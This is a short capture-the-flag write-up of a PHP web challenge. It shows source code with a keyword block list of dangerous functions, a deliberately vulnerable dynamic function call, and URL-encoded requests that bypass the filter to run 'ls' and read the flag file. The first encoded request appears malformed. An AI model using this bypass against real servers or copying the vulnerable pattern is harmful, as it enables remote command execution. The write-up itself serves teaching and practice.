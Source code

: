 A quick poke around the URL revealed a robots.txt file which gave the first clue:

# you know de wae ma queen
User-Agent: *
Disallow: /?debug


Visiting http://35.196.45.11:8080/?debug provided the PHP source code that is driving the page:

'''php

$blacklist = "assert|system|passthru|exec|assert|read|open|eval|`|_|file|dir|\.\.|\/\/|curl|ftp|glob";

if(count($_GET) > 0){
    if(preg_match("/$blacklist/i",$_SERVER["REQUEST_URI"])) die("No no no hackers!!");
    list($key, $val) = each($_GET);
    $key($val);
}
?>'''

But The admin forgot that we can bypass the filter using url encoding , we can call system("ls"):

**http://35.196.45.11:8080/?%115%121%115%116%101%109=ls**

now print the long file name content :

**http://35.196.45.11:8080/?%73%79%73%74%65%6d=cat%20flag-a-long-name-that-you-wont-know.php**



`AceBear{I_did_something_stupid_with_url}`


